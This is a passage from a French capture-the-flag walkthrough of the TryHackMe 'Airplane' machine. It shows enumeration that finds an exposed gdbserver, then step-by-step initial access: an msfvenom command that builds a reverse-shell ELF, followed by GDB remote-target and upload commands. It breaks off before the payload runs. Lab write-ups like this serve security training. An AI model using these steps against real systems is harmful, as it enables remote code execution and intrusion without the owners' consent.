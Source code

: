 Pour les paramètres du payload, nous sélectionnons `Numbers` allant séquentiellement de 1 à 10000 (vous pouvez choisir un nombre plus petit comme 1000) et démarrons l'attaque. En raison de la limite de vitesse de Burp CE, le processus prendra beaucoup de temps, mais nous pouvons continuer notre énumération au fur et à mesure que l'attaque progresse.

> Je recommande d'utiliser [Caido](https://caido.io/) pour ce type d'attaque car il n'y a pas de limitation de vitesse.

Après avoir classé les requêtes par longueur, vous trouverez une requête dont la réponse est `/usr/bin/gdbserver0.0.0.0:6048airplane`. (La requête spécifique se trouve toujours parmi celles qui ont une longueur d'environ 400 octets).

![gdbserver process](/images/THM-Airplane/gdbserver.png)

## Accès initial (shell en tant que hudson)

En recherchant `gdbserver reverse shell` sur Google, nous trouvons [cette page HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver) expliquant comment exploiter cet outil. Suivons les étapes :

1. Créer un binaire ELF

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP_ADDRESS LPORT=PORT PrependFork=true -f elf -o binary.elf
```

![elf backdoor](/images/THM-Airplane/elf_backdoor.png)

2. Rendre le fichier exécutable

```
chmod +x binary.elf
```

3. Lancer GDB pour débugger le fichier

```
gdb binary.elf
```

![Open the elf with GDB](/images/THM-Airplane/gdb_elf.png)

4. Définir la cible du debugger

```
target extended-remote airplane.thm:6048
```

![Set the remote target](/images/THM-Airplane/elf_target_set.png)

5. Télécharger le fichier ELF sur la cible

```
remote put binary.elf /tmp/binary.elf
```

![elf backdoor upload](/images/THM-Airplane/elf_upload.png)
